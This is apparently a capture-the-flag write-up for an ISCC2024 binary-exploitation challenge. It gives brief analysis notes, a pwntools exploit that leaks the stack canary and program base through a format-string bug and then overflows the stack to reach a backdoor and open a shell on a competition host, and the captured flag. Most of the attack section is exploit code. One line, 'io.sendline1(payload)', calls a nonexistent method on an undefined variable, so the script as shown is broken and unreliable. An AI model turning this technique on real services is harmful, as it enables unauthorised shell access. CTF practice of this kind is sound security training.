



# ISCC2024 WriteUp

GX-rainbow + 杨智林 + 3436865331@qq.com

# 练武题PWN——ISCC_easyshell分析

checksec一下



打开IDA，查看反编译



进入core_code函数，可以看到一个栈溢出和一个格式化字符串



我们利用格式化字符串漏洞，泄露canary，拿到canary的值，再泄露backdoor函数的地址，最后进行getshell

# exp

```python
from pwn import *
io = remote('182.92.237.102',10011)#你的靶机
#io=process('./attachment-13')
elf = ELF('./attachment-13')
payload1 = b'flagis%%15$p'
io.recvuntil(b'>>')
io.sendline1(payload)
canary = int(io.recvline()[:18],16)
payload2 = b'flagis%%17$p'
io.recvuntil(b'>>')
io.sendline(payload2)
base = int(io.recvline()[:14],16)-254-elf.sym['main']
# print(hex(program_base))
backdoor = base + 0x1291
payload3 = b'A' * 0x38 + p64(canary) + p64(0) + p64(backdoor)
io.recvuntil(b'>>')
io.sendline(payload3)
io.recvuntil(b'>>')
io.sendline(b'exit')
io.interactive()
```


# flag

```
ISCC{abpdb5iuKAu2MrTv0Y2R11aBJXWK5RmDyL3o}
```

